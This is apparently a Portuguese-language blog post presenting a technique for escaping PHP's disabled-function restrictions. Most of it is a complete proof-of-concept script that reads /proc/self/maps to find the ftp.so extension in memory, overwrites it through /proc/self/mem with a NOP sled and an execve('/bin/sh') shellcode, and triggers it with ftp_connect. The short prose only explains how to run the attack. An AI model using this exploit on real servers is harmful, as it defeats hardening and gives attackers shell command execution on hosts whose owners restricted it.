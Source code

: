 ```yaml
---
layout: post
comments: true
title: "PHP bypass injetando shellcode"
---
```


Vou escrever sobre um jeito de injetar shellcode no php, e executar comandos
no sistema, burlando possiveis funções desabilitadas como system e shell_exec,
por exemplo, infelizmente essa tecnica não permite burlar todo o safe_mode
do php, porque tem a limitação do open_basedir, essa é unica limitação
propriamente dita, e se as funções para leitura de arquivo, e a função seek
também estiverem desabilitadas então não funciona.

-- show the code --

A tecnica funciona da seguinte maneira, o php vai carregar varias extensões 
na memoria, e ai vamos pegar o range de memoria de uma extensão qualquer,
e vamos sobrescrever com nops e com o shellcode, e no codigo php iremos
chamar uma função que corresponde a extensão sobrescrita, quando ela chamar a
lib que foi sobrescrita, BOOM, vai executar o shellcode.

## poc

{% highlight php %}
<?php

	/* getting address range of extesion */
	function get_extension_range($name){
		$maps = fopen("/proc/self/maps", "r");
		while(!feof($maps)){
			$line = fgets($maps);
			if( preg_match("/(\w+)-(\w+)\s*r-xp.*modules\/${name}.*/", $line, $matches) ){
				fclose($maps);
				return array(hexdec($matches[1]), hexdec($matches[2]));
			}
		}
		return array();
	}

	function generate_shellcode($range, $shellcode){
		$sc = str_repeat("\x90", $range[1]-$range[0]-strlen($shellcode));
		$sc .= $shellcode;
		return $sc;
	}

	function write_memory($position, $string){
		$mem = fopen("/proc/self/mem","w+");
		fseek($mem, $position);
		fwrite($mem, $string);
		fclose($mem);
	}

	$range = get_extension_range("ftp.so");

	if(empty($range)){
		die("failed to find extension...");
	}

	/* execve("/bin/sh", ["/bin/sh"], NULL) for linux x86_64 */
	$shellcode = "\x48\x31\xff\x48\xf7\xe7\xb0\x3b\x48\xbf\x66".
			 "\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08".
			 "\x57\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

	$shellcode_with_nops = generate_shellcode($range, $shellcode);
	write_memory($range[0], $shellcode_with_nops);


	/* call extension to exec shellcode */
	ftp_connect("matrix");



?>
{% endhighlight %}
<script type="text/javascript" src="https://asciinema.org/a/83869.js" id="asciicast-83869" async></script>
